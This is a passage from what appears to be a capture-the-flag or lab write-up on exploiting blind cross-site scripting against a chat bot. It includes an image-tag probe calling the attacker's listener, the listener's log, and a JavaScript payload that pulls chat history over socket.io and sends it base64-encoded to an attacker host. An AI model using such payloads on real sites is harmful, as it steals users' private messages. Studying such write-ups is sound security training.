 ## 3. XSS

After trying some normal XSS payloads, I realized that it could be blind XSS and I tried to send the following command

`<img src='http://10.10.14.97:1234/asd.sh'`

and I received the following response:

```bash
└─$ python -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
10.10.11.6 - - [13/Mar/2024 13:20:52] code 404, message File not found
10.10.11.6 - - [13/Mar/2024 13:20:52] "GET /asd.sh HTTP/1.1" 404 -
```

So I started analyzing the JavaScript files and I found, in *chat.js*, how to interact with the bot.

<p align="center">
  <img src="images/chat_js.png" />
</p>

Thanks to the information found I created the following JS file:

```js
const script = document.createElement('script');
script.src = '/socket.io/socket.io.js';
document.head.appendChild(script);

script.addEventListener('load', function() {
	const res = axios.get(`/user/api/chat`);
	const socket = io('/',{withCredentials: true});

	//listening for the messages
	socket.on('message', (my_message) => {
		fetch("http://10.10.14.97:1234/?d=" + btoa(my_message));
	});
	socket.emit('client_message', 'history')
```